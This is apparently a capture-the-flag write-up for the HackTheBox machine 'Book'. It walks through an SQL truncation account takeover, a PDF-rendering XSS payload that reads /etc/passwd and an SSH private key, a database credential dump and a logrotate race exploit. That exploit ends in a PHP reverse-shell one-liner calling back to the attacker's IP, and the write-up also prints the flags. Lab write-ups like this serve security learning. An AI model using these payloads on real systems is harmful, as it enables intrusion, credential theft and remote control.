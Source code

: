 # Book

Author: Ewaël

**Book** is a medium HackTheBox box by MrR3boot.

`nmap -sC -sV -oN nmap 10.10.10.176 -v -A` show ports 80 and 22 are open. Let's start with the website.

![login](imgs/login.png)

I start by creating an account as `admin:admin@admin.com:admin` to see possible vulnerabilities on the site. There is a profile page with the `role` set as `user`. First I try a CSRF exploit on the contact page but it does not work because the administrators do not have the rights to change the roles. I also try to upload a reverse shell via the download function which is supposed to be used to submit books, but the sent suppositions are checked by administrators before being published.

Coming back on the register page I notice an interesting function in the source code:

```javascript
function validateForm() {
  var x = document.forms["myForm"]["name"].value;
  var y = document.forms["myForm"]["email"].value;
  if (x == "") {
    alert("Please fill name field. Should not be more than 10 characters");
    return false;
  }
  if (y == "") {
    alert("Please fill email field. Should not be more than 20 characters");
    return false;
  }
}
```

This is interesting because I can easily suppose that the mail address will be truncated if it's longer than 20 characters. Thus it would be vulnerable to an SQL tuncation attack, which is even more probable considering that dirbuster found a `db.php` page.

Let's send the following body through burp:

```
name=admina&email=admin%40book.htb         3&password=allo
```

Now I can log as admin with his own mail address (found in the contact page) that I overwrited.

![admin](imgs/admin.png)

I can now access the admin panel:

![panel](imgs/panel.png)

Moving around I realize that I can now download the collection of books with the ones that users recommanded too.

After testing some payloads in the pdf as the user I understand that it's useless because the only visible field by the admin is the `title` one. To find the good payload I used this site:

[https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)

```html
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

![exploit](imgs/exploit.png)

I download the collection pdf aaaand... Surprise!

![passwd](imgs/passwd.png)

The exploit works as intended, and `reader` is the user I will attack as `syslog` does not seem to have a bash environnement. Let's dump its ssh private key:

```html
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

![privkey](imgs/privkey.png)

Nice! My first idea is to use `ssh2john` script to crack the password but there is no password! I can just login with the private key and get the user flag:

`51c1d4b5197fa30e3e5d37f8778f95bc`

The privilege escalation for root is really a pain to me because I directly go into a rabbit hole. Indeed as I can now read the `db.php` file in `/var/www/html` which contains creds to dump the sql database, I feel like I'm on the right direction:

```php
<?php
$conn = mysqli_connect("localhost","book_admin","I_Hate_Book_Reading","book");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Dumping the database with mysqldump even gives me some admin creds:

```
$ mysqldump -ubook_admin -pI_Hate_Book_Reading book
...
LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
INSERT INTO `users` VALUES ('admin','admin@book.htb','Sup3r_S3cur3_P455'),('test','a@b.com','test'),('shaunwhort','test@test.com','casablancas1'),('peter','hi@hello.com','password');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
...
```

Sadly none of them work for sudo password or root password to connect with ssh.

Then I decide to do some enumeration with `LinEnum.sh` and `linPEAS.sh` but I only notice some weird cron jobs running on. As I am not familiar with those vulnerablities I use the `pspy64` script to check the running process and detect a vulnerable command runned as root.

```
...
2020/06/07 19:36:14 CMD: UID=???  PID=26591  | /usr/sbin/logrotate -f /root/log.cfg
...
```

This one catches my attention as the `/root` path is inside. Going back on the enumeration results I see:

```
/etc/cron.daily:
total 68
drwxr-xr-x  2 root root 4096 Dec  3  2019 .
drwxr-xr-x 99 root root 4096 Feb 19 14:09 ..
...
-rwxr-xr-x  1 root root  372 Aug 21  2017 logrotate
...
```

Now it's time for some googling about a possible exploit: [https://hackerone.com/reports/578119](https://hackerone.com/reports/578119). There is indeed a race condition exploit in `logrotate` that I'm going to use following [https://github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten).

I copy `logrotten.c` on the victim machine and I use `./logrotten -p ./payloadfile ~/backups/access.log` after compiling because the `create` option is on in `/etc/logrotate.conf`. At first it does not work using `nc` as supposed on the exploit page but after replacing it with `php -r '$sock=fsockopen("10.10.14.10",4444);exec("/bin/sh -i <&3 >&3 2>&3");'` I finally get my root shell on the listener:

`84da92adf998a1c7231297f70dd89714`
